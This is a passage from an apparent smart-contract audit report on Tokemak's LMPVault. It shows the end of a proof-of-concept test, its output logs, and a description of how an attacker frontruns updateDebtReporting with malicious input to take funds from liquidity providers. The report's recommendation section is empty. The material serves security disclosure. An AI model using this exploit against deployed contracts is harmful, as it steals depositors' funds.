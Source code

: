 ```solidity
_lmpVault.updateDebtReporting(_destinations);

  

emit log_named_uint("Remaining LPs can only get ",_lmpVault.maxWithdraw(address(this)));

emit log_named_uint("Protocol falsely earned(in base asset)", _lmpVault.maxWithdraw(feeSink));

emit log_named_uint("Vault totalAssets" , _lmpVault.totalAssets());

emit log_named_uint("Effective loss take by LPs", 1000 - _lmpVault.maxWithdraw(address(this)));

emit log_named_uint("Profit for Alice",_asset.balanceOf(alice) - initialBalanceAlice);

}
```


Logs:
  final Balance of alice : 1019
  Fees shares give to feeSink : 10
  Remaining LPs can only get : 920
  Protocol falsely earned(in base asset): 9
  Vault totalAssets: 930
  Effective loss take by LPs: 80
  Profit for Alice: 19

## Impact
Theft of user funds.
Submitting as high as attacker only needs to frontrun a updateDebtReporting txn with malicious input and withdraw his funds.
## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L628-L630C6

```solidity
function updateDebtReporting(address[] calldata _destinations) external nonReentrant trackNavOps { // @audit < user controlled input

_updateDebtReporting(_destinations);

}
```

## Tool used

Manual Review

## Recommendation 
